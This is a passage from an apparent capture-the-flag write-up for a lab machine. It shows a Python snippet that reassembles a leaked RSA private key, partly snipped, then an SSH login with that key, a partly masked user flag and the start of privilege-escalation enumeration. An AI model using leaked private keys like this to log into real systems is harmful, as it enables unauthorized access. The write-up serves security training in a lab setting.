```
array_key = ["-----BEGIN RSA PRIVATE KEY-----\n","MIIEogIBAAKCAQEAvKToxo7NSyrFUZ93ZtYulgxZl1Mm7JPXD/ihWY4CT06tXLND\n","6uKlsBMm00QazOmRXSsiiCp8AXheYA0FBdFtB0NxQOSqOX8BY831C5rOFXG3ILEw\n","adtXPNow8ro/YsMMz0FpTnSBBK2ClI+2y4icvV6aES60q6XPkQGWPdLokVUUVBeK\n",
--[snip]--
"NinngYX3g3oq/+5815/3NI7liMASBwdc7Uqw/HkcOsPwKQPxEEM=\n","-----END RSA PRIVATE KEY-----\n"]

for i in array_key:
	print(i.strip())
```


```bash
python3 key_format.py 

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvKToxo7NSyrFUZ93ZtYulgxZl1Mm7JPXD/ihWY4CT06tXLND
6uKlsBMm00QazOmRXSsiiCp8AXheYA0FBdFtB0NxQOSqOX8BY831C5rOFXG3ILEw
--[snip]--
cPKtkGQ0ZCp2ovuCSPvJ4vmO+ewulZp6ZfAMAHw4fntFKme0X4omp+ji7B6HMcRO
NinngYX3g3oq/+5815/3NI7liMASBwdc7Uqw/HkcOsPwKQPxEEM=
-----END RSA PRIVATE KEY-----
```

```bash
ssh shirohige@instant.htb -i id_rsa 

shirohige@instant:~$ ls
logs  projects  user.txt
shirohige@instant:~$ cat user.txt
99d5a14d524---------------------
```

# Root

## enum

```bash
shirohige@instant:~$ sudo -l
[sudo] password for shirohige: 
```

```bash
shirohige@instant:~$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1334/python3        
tcp        0      0 127.0.0.1:8808          0.0.0.0:*               LISTEN      1338/python3        
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
```